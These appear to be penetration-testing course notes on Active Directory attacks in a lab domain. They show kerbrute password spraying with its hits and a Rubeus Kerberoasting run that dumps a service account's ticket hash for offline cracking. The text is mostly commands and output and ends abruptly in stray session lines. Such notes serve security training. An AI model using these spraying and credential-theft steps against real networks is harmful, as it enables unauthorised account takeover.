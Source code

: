 We can use the tool [kerbrute](https://github.com/ropnop/kerbrute), implementing this technique to spray passwords. Since this tool is cross-platform, we can use it on Windows and Linux.
```powershell
PS C:\Tools> .\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"

...
2022/09/06 20:30:48 >  Using KDC(s):
2022/09/06 20:30:48 >   dc1.corp.com:88
2022/09/06 20:30:48 >  [+] VALID LOGIN:  jen@corp.com:Nexus123!
2022/09/06 20:30:48 >  [+] VALID LOGIN:  pete@corp.com:Nexus123!
2022/09/06 20:30:48 >  Done! Tested 3 logins (2 successes) in 0.041 seconds
```

> **Note**:
> If you receive a network error, make sure that the encoding of usernames.txt is ANSI. You can use Notepad's *Save As* functionality to change the encoding.

> **Note**: 
> For crackmapexec and kerbrute, we had to provide a list of usernames. To obtain a list of all domain users, we can leverage techniques we learned in the Module Active Directory Introduction and Enumeration or use the built-in user enumeration functions of both tools.

### Service Account Attacks
When the user wants to access a resource hosted by a SPN, the client requests a service ticket that is generated by the domain controller. The service ticket is then decrypted and validated by the application server, since it is encrypted through the password hash of the SPN.

When requesting the service ticket from the domain controller, no checks are performed on whether the user has any permissions to access the service hosted by the service principal name. 
  - These checks are performed as a second step only when connecting to the service itself. 
  - This means that if we know the SPN we want to target, we can request a service ticket for it from the domain controller. 
  - Then, since it is our own ticket, we can extract it from local memory and save it to disk.

In this section we will abuse the service ticket and attempt to crack the password of the service account.

#### Rubeus
1. We specify the **kerberoast** command to launch this attack technique. In addition, we'll store the resulting TGS-REP hash in **hashes.kerberoast**. Since we'll execute Rubeus as an authenticated domain user, the tool will identify all SPNs linked with a domain user.
    ```powershell
    PS C:\Tools> .\Rubeus.exe kerberoast /outfile:hashes.kerberoast
    ...

    [*] Total kerberoastable users : 1

    [*] SamAccountName         : iis_service
    ...
    [*] Hash written to C:\Tools\hashes.kerberoast
    ```
2. Now, let's copy **hashes.kerberoast** to our Kali machine. We can then review the Hashcat help for the correct mode to crack a TGS-REP hash.
    ```sh
    kali@kali:~$ cat hashes.kerberoast
    $krb5tgs$23$*iis_service$corp.com$HTTP/web04.corp.com:80@corp.com*$940AD9DCF5DD5CD8E91A86D4BA0396DB$F57066A4F4F8FF5D70DF39B0C98ED7948A5DB08D689B92446E600B49FD502DEA39A8ED3B0B766E5CD40410464263557BC0E4025BFB92D89BA5C12C26C72232905DEC4D060D3C8988945419AB4A7E7ADEC407D22BF6871D...
    ...


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname